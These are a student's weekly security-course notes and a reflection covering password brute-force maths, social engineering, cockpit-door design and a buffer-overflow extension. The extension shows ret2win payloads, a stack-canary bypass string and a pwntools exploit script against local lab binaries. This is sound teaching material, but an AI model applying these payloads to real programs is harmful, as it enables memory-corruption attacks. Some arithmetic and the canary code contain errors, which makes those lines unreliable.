


# Monday Lecture

Measuring / guessing:

- Sometimes wrong answers allow you to get the correct answer - rather than brute forcing
- Better to ask questions like "is it smaller than a bread box" (partitions the universe into two) than "is it a pencil" (very specific - if not pencil, could by almost anything else - not much information gained)
- Important to rapidly zero in on a small set of possibilities in the early stages - last few questions can be morre specific
- 20 character password brute force assumming computer can do 6 million passwords per second
  - 72<sup>20</sup> possible passwords (72 possible characters from 52 letters, 10 digits, 10 symbols) ~ approx 10^37
  - Since $10^3 (1000) \approx 2^{10} (1024)$, $10^{37} = 10*10^{36} = 10 * (10^3)^{12} = 10 * 2^{120} \approx 10^{123}$ => 123 bits
  - 6 million is approx 2<sup>23</sup> so about $\frac{2^{123}}{2^{23}} = 2^{100} = 10^{30}$ seconds to try all passwords ($10^{22}$ years)
    - Not in danger from Moore's law (longer than age of the universe), but could potentially be an issue for example in 100 years
  - Most correctly guessed passwords are found in the middle of the set of all passwords (don't need to go through all possible passwords) - one less bit required (effectively halfing the set)
  - GPUs and FPGAs often better for intensive calculations (e.g. mining Bitcoin)

Lossless compression - able to be decompressed to the original. Only about 1.75 bits per English character vs several bits per char in most text encoding - usually effective

Security - amount of work needed to break it

Security is like a knot - it can be undone given enough effort. Security can only buy time.

Raymond Smullyan puzzle/riddle:

- Martian men lie
- Martian women tell trruth
- Venetian men tell truth
- Venetian women lie

Need to ask at least two questions to determine both planet and gender - impossible to distinguish four sets with a single question of yes or no - information theory

| Question          | Martian Men | Martian Women | Venetian Men | Venetian Women |
| ----------------- | ----------- | ------------- | ------------ | -------------- |
| Are you a woman   | Yes         | Yes           | No           | No             |
| Are you a man     | No          | No            | Yes          | Yes            |
| Are you from Mars | No          | Yes           | No           | Yes            |

# Tuesday Lecture

- System not just computer, also environment (humans and hardware) - know both technique and humanity
- Want end-to-end security (whole journey needs to be secure)
- People are the weakest link?
- Bitsquatting - expoiting vulnerabilities in physical software of the chip

Cognitive vulnerability

- Can't rely on our brain 100% of the time
- Social engineers exploit flaws in brain
- Mistakes - all code have mistakes - vulnerabilities that people can use to make exploits
- Ex: hand in hot and cold water for 30s then into room temp - different sensations, optical illusions
- Dealing with risks
  - Familiar - we can decide what to tune out and focus on
  - Unfamiliar - focus on it obsessively or ignore it completely
- Cognitive bias
  - e.g. confirmation bias - tendency to see information in a way that confirms one's existing beliefs and values - used by attackers as a vulnerability in people to attack
- Misdirection - making people focus on something else as a distraction (magician making the one move you need to hide seem natural)
- Cybersecurity/security - announcements near celebrations or crisis, timed attacks when everyone is distracted (focus on something else)

Social engineering:

- The art of being systematic about tricking people (abuse of trust)
- Distraction attack, disguising as authority, people don't like being rude, people like to confirm
- Recon is the first step
- Phishing - people tend to ignore risk when they see profit
- Trojan Horse

Gullibility:

- Eagerness to believe or trust - programmed to comply and acquiesce with the other person - ignore intuition and fail to assess the situation rationally, ignoring the fact that in such situations we are required to find out more information
- Result: getting conned because of our inability to decline, refuse or postpone our decision on what was manipulatively put in front of us

Greed:

- People get greedy and cheat - systems should be in place to be accounted for greedy people
- Personal interests can influence the company's interest
- Decisions should be set up such that there's no extra pressure on them making the wrong decision - e.g. judges should not be part of a trial they have a connection to

Password problems:

- Obscurity - taking a hash of the password and sending it to the computer which stores it, alleviating the security risk of an inside person having access to the password (in case they get reused somewhere) - good hashes are asymmetric (one-way)
  - Attackers attack hashed passwords by comparing them with a list of hashes for the most common passwords to figure out what the hashed passwords are or even the hashing function
- Problems with reusing password, hummans are bad at picking passwords (dictionary words altered to make them easier to remember - comes with a downside of smmaller option space)

# Extension - Buffer Overflows

Type of memory corruption bug - decreasing in popularity (easy to search for e.g. gets, str..)

Forgetting to account for null-terminator can cause a 0-byte to overflow into another variable

Stack:

- Stacks grow up, fills down, e.g.

  - ```
    [ _ ] <- string4
    [ _ ]
    [ _ ]
    [\0 ]
    [ a ] <- string3 (can overflow this buffer into string2)
    [ b ]
    [ c ]
    [\0 ]
    [ _ ] <- string2
    [ _ ]
    [ _ ]
    [\0 ]
    [ _ ] <- string1
    [ _ ]
    [ _ ]
    [\0 ]
    ```

- Stack frame for call stack

  - Calling function (also grows up, fills down)

    ```
    Function call 2:
    	Locals for function (4)
    	Return Address (5)
    	Parameters (6)
    Function call 1:
    	Locals for function (1)
    	Return Address (2)
    	Parameters (3)
    ...
    ```
  
- Avoid `gets` in C code - use `scanf`with max chars e.g. `scanf("%63s", buffer);`

  - max char = strlen(buffer) - 1 to ensure null terminator at the end (prevent overflow)

- Use `python3 -c` to create payload and pipe into executable: `python3 -c "print('a' * 64 + 'b')" | ./prog`

  - python2 may create extra bytes

- Segmentation faults - caused undefined behaviour within program (try putting way bigger input)

  - retToWin (return to win) example - overwrite return address (can be in program or not)
    - Buffer 9 characters long
    - `objdump -d filename` disassemble to find address of function (0804928d)
    - 'A' * 9 + '0804928d' doesn't work (save to payload.txt)
    - Stack: computer pushes other things onto the stack around the return address - knows it will need later
      - Use `gdb filename` > `disass myFunc`to find scanf call (myFunc addres +86 instructions) - try disass main to find other called functions
      - Set a breakpoint: `b *myFunc+86` and `r < payload.txt` to run program piping payload.txt as stdin
    - Look at saved registers with `info frame`. Modify payload to included extra bytes for num saved registers (depends on their size)
      - 3 32-bit registers each 4 bytes apart -> 4 * 3 = 12 extra bytes in payload
    - '0804928d' is meant to be hex so add '\x' for each byte, and also little endian so '\x8d\x98\x04\x08'

- Prevention: treat user input data as dangerous (assume arbitrary length up to infinite)

  - scanf specify length, use strncmp, strncat, strncpy

  - Stack canary - known values placed in a buffer and control data on the stack to prevent buffer overflows (could be easily bypassed by overwriting them with themselves - if known)

    - ```c
      char buf[13] = {0};
      buf[10] = '\xde';
      buf[11] = '\xad';
      buf[12] = '\xbe';
      buf[13] = '\xef';
      gets(bufs);
      assert(strncmp(buf+10, "\xde\xad\xbe\xef", 4) == 0) 
      ```

    - python2 -c "print 'A' * 10 + '\xde\xad\xbe\xef' + 'B' * 11 + '\x9f\x92\x04\x08'"

    - Canary check '\xde\xad\xbe\xef' (no need for little endian since it's not a location) starts at buffer (of length 13) index 10

    - 11 extra 'B' found by 12 - 1

      - 12 bytes from 3 saved registers of 4 bytes
      - One subtracteed since \xef already overflowed buffer of length 13

- Pwntools:

  - ```python
    import pwn
    p = pwn.process('./ret2win')
    offset = 21
    winAddr = 0x0804928d
    payload = 'A'.encode() * offset + pwn.p32(winAddr)
    p.sendline(payload)
    p.interactive()
    ```

  - python3 encodes differently to python2, adding extra bytes to output


# Tutorial: Case Study 3 - Doors

Reinforced cockpit doors

Notes:

- Door designed to resist penetration by small arms fire and grenade shrapnel, and to resist forcible intrusions by unauthorised persons
- Door can only be opened from the inside unless there is an emergency where the pilots don't respond - emergency code entered which automatically unlocks the doors after 30 seconds if the pilots don't cancel it
  - 30 seconds is a lot especially if there is an emergency - every second counts
- If the cockpit gets hijacked, there is no way to access it - terrorists have full control of the plane
- Door jammed - pilots stuck

Tutorial:

- German Wings incident - copilot locked pilot out when they went to the toilet
- Change locking system - lockdown

# Weekly Quiz

Bits of work: Suppose I have a password that is 6 characters long consisting of upper case letters and/or lower case letters and/or numeric digits 0-9. On average, how many bits of work will an attacker need to do to brute force the password if checking a single password takes 10 bits of work?

62^6 combinations, 2^10 for each. Average: half of the combinations. Log2 to get number of bits.

$log_2{(\frac{62^6 * 2^{10}}{2})} = 45$

# Reflection

Week 3 has been very busy for me, with close to 20 hours of subcommittee interviews (as can be seen from my calendar). Although last week I planned on limiting my COMP6841 workload to around 6 hours, I still felt like my time was very well spent. I ended up spending a bit more (7 hours), with 2 hours for my in-person tutorial, 1 hour reading and writing lecture and webinar notes and around 4 hours for the activities. I put a lot of effort into the relatively straightforward activities, which still took quite a long time to write up even though my efficiency has significantly improved since the start of the term. As I have done in the previous weeks, I am still continuing to find better solutions beyond the requirements of the activities, such as in the extension activity where I examine several different methods of solving the problem instead of just my first instinctual one, allowing me to better spot a variety of patterns for challenges in the future. Furthermore, for the Enigma Machine and Auditing Trick activities, I challenged myself to write Python programs to be able to calculate solutions more efficiently. For the Auditing Trick activity, this was greatly beneficial in processing my friends' expense data, where I spent less time writing and executing the program than if I were to do the calculations manually (~2 minutes). However, my Enigma Machine program took about 1 hour longer than expected, due to some bugs as explained in my [blog post](https://www.openlearning.com/u/axie/blog/2/) for the activity. I also completed the Congnitive Vulnerability activity involving research into philosophical/psychological biases, which although was something I had previously done before in high school, I did not find too interesting. Being able to connect the activity to security principles was interesting however. 

Although I definitely miss attending the engaging in-person lectures, I felt like the lecture notes were a better use of my time, where I preferred to do some self-research to consolidate gaps in my knowledge and synthesise important points than spending more than 3 extra hours per week. I thoroughly enjoyed this week's content as it was quite mathematical with bit calculations, even though the psychological aspects weren't as interesting but still important. Learning about buffer overflows was enjoyable and helped consolidate my understanding of computing fundamentals. This week's tutorial was also quite interesting, where we discussed designing airplane cockpit door security systems. Like in our first case study, it seemed like almost every idea we came up with has some significant vulnerabilities associated with it. However, by combining several of our ideas together, we were able to minimise the security risk on the plane, for example through designing a cockpit with necessities inside (such as a toilet, sleeping area) only lockable from the outside so the pilots would theoretically never have to leave the cockpit when flying unless for evacuations. Having a two-way live camera feed could help those in the cabin and the cockpit visualise what's on the other side of the door, for security purposes.

I also attended the Skylight Cyber talk hosted by SecSoc after the tutorial with some classmates right after our tutorial. I thoroughly enjoyed the talk which was both informative and entertaining. I learned a lot about security by obscurity and the importance of hiring hackers to try and attack your claimed "secure" products with an attacker mindset, as well as some basic machine learning techniques used to exploit the AI product. Also, I really wanted to attend the movie night on Tuesday for the very interesting film security analysis. However, I was unable to attend this due to an unexpected interview which I had to return home for. Luckily, one of my friends filled me in for this week's movie. I hope I can make it next week, but examining my schedule for the next week, this seems unlikely. Overall, I was satisfied with the amount of learning I've been able to achieve over the last week, despite my busy schedule and being unable to attend in-person lectures. I hope to continue in a similar fashion over the next few weeks, hopefully cutting down my hours some more so I can concentrate on my other subjects as well. 






